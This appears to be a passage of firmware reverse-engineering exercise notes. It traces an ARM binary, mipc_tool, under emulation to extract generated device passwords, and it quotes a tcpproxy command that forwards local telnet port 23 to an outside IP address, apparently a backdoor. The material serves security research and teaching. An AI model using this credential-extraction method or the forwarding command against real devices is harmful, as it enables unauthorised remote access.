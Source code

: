 ```
ln -s busybox -T echo
cd ../../

proot -q "qemu-arm -strace" -S cpio-root /project/platforms/faraday-linux-armv5/bin/mipc_tool -cmd pass -ctx 1 -devid 0 -prompt /tmp/prompt -pass /tmp/pass -plain 2>&1 | grep echo
13603 execve("/bin/sh",{"sh","-c","echo 0@1 > /tmp/prompt",NULL})13603 brk(NULL) = 0x000ac000
13606 execve("/bin/sh",{"sh","-c","echo 96a3be3cf272e017046d1b2674a52bd3 > /tmp/pass",NULL})13606 brk(NULL) = 0x000ac000

proot -q "qemu-arm -strace" -S cpio-root /project/platforms/faraday-linux-armv5/bin/mipc_tool -cmd pass -ctx 1 -devid 1 -prompt /tmp/prompt -pass /tmp/pass -plain 2>&1 | grep echo
13792 execve("/bin/sh",{"sh","-c","echo 1@1 > /tmp/prompt",NULL})13792 brk(NULL) = 0x000ac000
13795 execve("/bin/sh",{"sh","-c","echo 6512bd43d9caa6e02c990b0a82652dca > /tmp/pass",NULL})13795 brk(NULL) = 0x000ac000

proot -q "qemu-arm -strace" -S cpio-root /project/platforms/faraday-linux-armv5/bin/mipc_tool -cmd pass -ctx 0 -devid 1 -prompt /tmp/prompt -pass /tmp/pass -plain 2>&1 | grep echo
13984 execve("/bin/sh",{"sh","-c","echo 1@0 > /tmp/prompt",NULL})13984 brk(NULL) = 0x000ac000
13987 execve("/bin/sh",{"sh","-c","echo d3d9446802a44259755d38e6d163e820 > /tmp/pass",NULL})13987 brk(NULL) = 0x000ac000

cat /tmp/pass 
d3d9446802a44259755d38e6d163e820
```

## Question and final exercise: What do these MPIC binaries do?

# WTF Section

## Question: What is the shell script with the hardcoded password for user 13510633251?
## Question: What does this look like its doing? 
```
mipc_tool -cmd tcpproxy --passive-remote 127.0.0.1:23 --remote 218.14.146.199:7024:/tmp/tcp_post.txt --header-notify-file /tmp/tcp_notify.txt --keep-running enable --keep-alive 300000
```
